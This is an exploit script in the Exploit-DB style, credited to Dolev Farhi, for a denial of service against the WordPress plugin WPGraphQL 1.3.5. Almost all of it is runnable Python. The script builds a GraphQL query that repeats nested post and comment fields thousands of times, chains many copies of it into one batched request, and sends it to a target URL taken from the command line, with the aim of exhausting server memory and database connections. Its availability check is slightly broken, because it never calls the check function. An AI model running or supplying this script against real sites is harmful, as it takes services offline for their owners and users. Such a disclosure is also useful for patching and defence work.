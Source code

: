 EXP
---

    # Exploit Title: WordPress Plugin WPGraphQL 1.3.5 - Denial of Service
    # Author: Dolev Farhi
    # Date: 2021-04-12
    # Vendor Homepage: https://www.wpgraphql.com/
    # Version: 1.3.5
    # Tested on: Ubuntu


    """
      This attack uses duplication of fields amplified by GraphQL batched queries, resulting in server OOM and MySQL connection errors.
    """

    import sys
    import requests


    def usage():
      print('* WordPress GraphQL 1.3.5 Denial of Service *')
      print('python {} <wordpress_url> <number_of_field_duplications> <number_of_chained_queries>'.format(sys.argv[0]))
      print('python {} http://site.com 10000 100'.format(sys.argv[0]))
      sys.exit(1)

    if len(sys.argv) < 4:
      print('Missing arguments!')
      usage()

    def wpgql_exists():
      try:
        r = requests.post(WORDPRESS_URL, json='x')
        if 'GraphQL' in r.json()['errors'][0]['message']:
          return True
      except:
        pass
      return False

    # This PoC assumes graphql is located at index.php?graphql
    WORDPRESS_URL = sys.argv[1] + '/index.php?graphql'
    FORCE_MULTIPLIER = int(sys.argv[2])
    CHAINED_REQUESTS = int(sys.argv[3])

    if wpgql_exists is False:
      print('Could not identify GraphQL running at "/index.php?graphql"')
      sys.exit(1)

    queries = []

    payload = 'content \n comments { \n nodes { \n content } }' * FORCE_MULTIPLIER
    query = {'query':'query { \n posts { \n nodes { \n ' + payload + '} } }'}

    for _ in range(0, CHAINED_REQUESTS):
      queries.append(query)

    r = requests.post(WORDPRESS_URL, json=queries)
    print('Time took: {} seconds '.format(r.elapsed.total_seconds()))
    print('Response:', r.json())
